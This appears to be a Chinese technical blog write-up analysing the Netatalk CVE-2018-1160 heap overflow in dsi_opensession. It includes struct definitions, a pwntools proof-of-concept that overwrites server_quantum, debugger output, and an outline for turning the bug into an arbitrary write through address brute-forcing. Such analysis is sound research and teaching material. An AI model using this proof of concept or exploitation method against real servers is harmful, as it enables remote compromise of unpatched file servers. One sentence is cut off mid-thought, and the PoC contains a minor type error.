

[(37条消息) Netatalk CVE-2018-1160的发现与利用_c01dkit的博客-CSDN博客](https://blog.csdn.net/weixin_43483799/article/details/113856715)


程序流程：

main() -> dsi_start() -> dsi_getsession()、afp_over_dsi()

- main()函数首先进行一系列初始化工作，包括解析配置文件，初始化socket、初始化dsi结构体等
- dsi_start()函数。该函数首先调用dsi_getsession()函数获取TCP会话，解析请求消息，之后调用afp_over_dsi()函数进行会话内容的处理。
- afp_over_dsi()：当前scoket下读取消息，根据消息调用处理函数实现AFP通信。

 dsi_getsession() -> dsi->proto_open(dsi) -> 父进程（直接返回，监听）/ 子进程（DSI消息处理逻辑，根据dsi_command）-> dsi_opensession()

- dsi_getsession() 开启一个DSI会话，从TCP socket接收会话消息，保存至结构体DSI中。子进程处理逻辑，若dsi_command为DSIFUNC_OPEN，则调用dsi_opensession()函数，初始化DSI会话。
- dsi->proto_open(dsi)实际为dsi_tcp_open，fork子进程读取DSI header到结构体dsi->header，读取payload到dsi->commands指向的buf
- dsi_opensession(dsi)：首先根据commands[0]的内容决定处理逻辑，若为DSIOPT_ATTNQUANT，则执行memcpy，以commands[1]为大小，将commands[2]之后的内容拷贝至DSI结构体的attn_quantum成员变量（4 bytes）

两个重要的结构体。其中dsi_block为dsi消息头部，DSI结构体保存了会话的所有重要信息，其中commands指针指向了TCP会话发送来的命令消息。位于include/atalk/dsi.h

```c
#define DSI_BLOCKSIZ 16
struct dsi_block {
    uint8_t dsi_flags;       /* packet type: request or reply */
    uint8_t dsi_command;     /* command */
    uint16_t dsi_requestID;  /* request ID */
    union {
        uint32_t dsi_code;   /* error code */
        uint32_t dsi_doff;   /* data offset */
    } dsi_data;
    uint32_t dsi_len;        /* total data length */
    uint32_t dsi_reserved;   /* reserved field */
};

#define DSI_DATASIZ       65536

/* child and parent processes might interpret a couple of these
 * differently. */
typedef struct DSI {
    struct DSI *next;             /* multiple listening addresses */
    AFPObj   *AFPobj;
    int      statuslen;
    char     status[1400];
    char     *signature;
    struct dsi_block        header;
    struct sockaddr_storage server, client;
    struct itimerval        timer;
    int      tickle;            /* tickle count */
    int      in_write;          /* in the middle of writing multiple packets,
                                   signal handlers can't write to the socket */
    int      msg_request;       /* pending message to the client */
    int      down_request;      /* pending SIGUSR1 down in 5 mn */

    uint32_t attn_quantum, datasize, server_quantum;
    uint16_t serverID, clientID;
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
    size_t   datalen, cmdlen;
    off_t    read_count, write_count;
    uint32_t flags;             /* DSI flags like DSI_SLEEPING, DSI_DISCONNECTED */
    int      socket;            /* AFP session socket */
    int      serversock;        /* listening socket */

    /* DSI readahead buffer used for buffered reads in dsi_peek */
    size_t   dsireadbuf;        /* size of the DSI readahead buffer used in dsi_peek() */
    char     *buffer;           /* buffer start */
    char     *start;            /* current buffer head */
    char     *eof;              /* end of currently used buffer */
    char     *end;

#ifdef USE_ZEROCONF
    char *bonjourname;      /* server name as UTF8 maxlen MAXINSTANCENAMELEN */
    int zeroconf_registered;
#endif

    /* protocol specific open/close, send/receive
     * send/receive fill in the header and use dsi->commands.
     * write/read just write/read data */
    pid_t  (*proto_open)(struct DSI *);
    void   (*proto_close)(struct DSI *);
} DSI;
```


漏洞点

在 **/netatalk-3.1.11/libatalk/dsi/dsi_opensess.c** 的 **dsi_opensession** 函数中的 **memcpy**：

```c
#define DSIOPT_ATTNQUANT 0x01   /* attention quantum */
void dsi_opensession(DSI *dsi)
{
  ...
  /* parse options */
  while (i < dsi->cmdlen) {
    switch (dsi->commands[i++]) {
    case DSIOPT_ATTNQUANT: 
      memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);
      dsi->attn_quantum = ntohl(dsi->attn_quantum);

    case DSIOPT_SERVQUANT: /* just ignore these */
    default:
      i += dsi->commands[i] + 1; /* forward past length tag + length */
      break;
    }
  }
  ...
}
```

`memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);`

 **dsi->commands[i]** 由外部传入，且没检查大小，导致可溢出到DSI结构体中attn_quantum的后续成员。成员 **commands** 的类型为uint8_t*，所以memcpy的最大长度是0xff。溢出部分data后就无法向后溢出了。commands为DSI接收buffer，可以覆盖为任意值。若再向该buffer

```c
#define DSI_DATASIZ       65536

typedef struct DSI {
	...
    uint32_t attn_quantum, datasize, server_quantum;
    uint16_t serverID, clientID;
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
	...
} DSI;
```

DSI:  **dsi_opensession protocol** ，对照其协议格式，和漏洞PoC：



PoC中的header就是符合dsi协议的字段，协议中的Payload就是PoC中的commands：

```python
commands = "\x01"   # DSIOPT_ATTNQUANT 选项的值
commands += "\x80"  # 数据长度
commands += "\xaa" * 0x80
```

poc，覆盖server_quantum为hung，收到的回显也会显示hung

```python
from pwn import *

context(endian='big',log_level='debug')
io = remote("127.0.0.1",5566)

cmd  = b'\x01'+ p8(0xc)+ b'a'*0x8 + 'hung'
dsi  = b'\x00\x04\x00\x01'
dsi += p32(0)
dsi += p32(len(cmd))
dsi += p32(0)
dsi += cmd

io.send(dsi)
io.recv()
```

```shell
pwndbg> x/20gx 0x55c10a51e370
0x55c10a51e370:	0x00010000676e7568	0x00007f56685b2010
0x55c10a51e380:	0x0000000000000000	0x0000000000000000
0x55c10a51e390:	0x0000000000000000	0x0000000000000000
0x55c10a51e3a0:	0x0000000000000000	0x0000000000000000
```

- dsi结构体，其中成员位于0x55c10a51e370，位于堆段
- commands指向的内存为0x00007f56685b2010，mmap分配，因为初始化dsi时候server_quantum为0x100000


exploit：

afpd：main -> dsi_start -> afp_over_dsi -> dsi_stream_receive

libatalk: dsi_stream_receive -> dsi_stream_read(dsi, dsi->commands, dsi->cmdlen)

> dsi_stream_read(DSI *dsi, void *data, const size_t length)是将dsi中payload内容读到data指针中

更改commands指针后，在本次tcp中再发一个包就可以**任意地址写**了，数据内容在dsi中的payload，不包括header。


爆破地址

当修改后的commands指针是一个可写的地址时，dsi_opensession()函数可以将server_quantum的值放进来并返回给我们，否则，子进程会由于访问不可写的地址而崩溃，socket异常。故，可以通过观察服务器是否给我们返回来确定当前我们是否爆破出一个合法的地址。
